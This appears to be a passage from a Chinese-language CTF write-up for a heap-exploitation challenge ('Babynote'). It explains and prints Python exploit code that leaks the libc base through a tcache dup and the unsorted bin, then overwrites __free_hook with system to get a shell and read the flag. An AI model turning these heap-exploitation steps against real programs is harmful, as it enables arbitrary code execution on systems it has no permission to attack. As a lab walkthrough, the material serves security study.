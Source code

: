 可以malloc兩塊chunk C跟D在裡面做出假的chunk，假的chunk size大於等於0x90就行，這邊選擇0xd0的大小，malloc的chunk則選擇0x80的大小
由於把chunk free進unsorted bin的時候，他會檢查下個chunk是不是inuse，檢查方法是看下下個chunk的PREV_INUSE bit，所以要在create B的時候先偽造好，不然edit會因為長度限制改不到

先在A+0xd0的位置p1補好最小chunk size 0x21，p1+0x20再補好0x21，讓unsorted bin覺得下個chunk有在使用

接著為了可以在delete完用show，一樣先delete C，再malloc 0x80的chunk E取得share pointer

之後發動tcache dup，先create 0x20的chunk，把fd改成C的address再malloc一次0x20的chunk，tcache指向C的address，同時把fd改成A的fd的address，為下次tcache dup做準備
這時再malloc一次0x20就會拿到C-0x10位置的chunk F，把F的bk位置改成0xd1完成fake chunk，這樣C的chunk的size就被偽造成0xd0，tcache會再次指回A

然後瘋狂double free C把0xd0的tcache填滿，再free1次就會進unsorted bin，這時候fd跟bk的位置就會出現指向unsorted bin的address，跟libc相關
用E來show就可以拿到unsorted bin的address(C的inuse被清掉不能show)，減掉unsorted bin的offset就得到libc base

這部份的code如下，總共6次create，加上第一部份的2次為8次:
```python=
create(0x78,'doge') #2
create(0x78,b'\x00'*0x48+p64(0x21)+b'\x00'*0x18+p64(0x21)) #3
delete(2)
# get share pointer
create(0x78,'doge') #4

# execute tcache dup attack
create(0x18,p64(heap_base+0x2b0)) #5
# set fd to continue use tcache dup
create(0x18,p64(0)+p64(0)+p64(heap_base+0x2a0)) #6
# fake size
create(0x18,p64(0)+p64(0xd1)) #7
# fill 0xd0 tcache
for i in range(7):
    delete(2)
    edit(4,p64(0)+p64(0))
# put chunk in unsorted bin
delete(2)
# unsorted bin bk will point to main arena, thus can infer libc base
libc_base = u64(show(4)+b'\x00\x00')-0x1ebb80-0x60
print(hex(libc_base))
```
#### overwrite free_hook and get shell
回到tcache dup的部份，這時counter為2(5-上次攻擊用的3)，tcache指向A的fd
用B去edit先把fd改成free_hook-0x8的位置，A的inuse為0不能edit，這樣就可以省一次create
-0x8的原因是可以順便把system的參數放好
接著create 0x20的chunk兩次拿到G跟H，第一次create完tcache會指向free_hook-0x8，第二次create就會拿到該位置的chunk，content放好/bin/sh跟事先算好的system address(libc+system offset)
最後free H就會call free_hook裡面放好的system，參數為H開頭的/bin/sh，成功get shell
然後cat /home/Babynote/flag就得到flag

最後的code如下，這邊2次create，跟前面加起來剛好10次:
```python=
# overwrite free hook
# minus 8 to write /bin/sh
edit(1,p64(libc_base+0x1eeb28-8))
create(0x18,'doge') #8
create(0x18,b'/bin/sh\x00'+p64(libc_base+0x55410)) #9

# trigger free hook function
delete(9)

r.interactive()
```
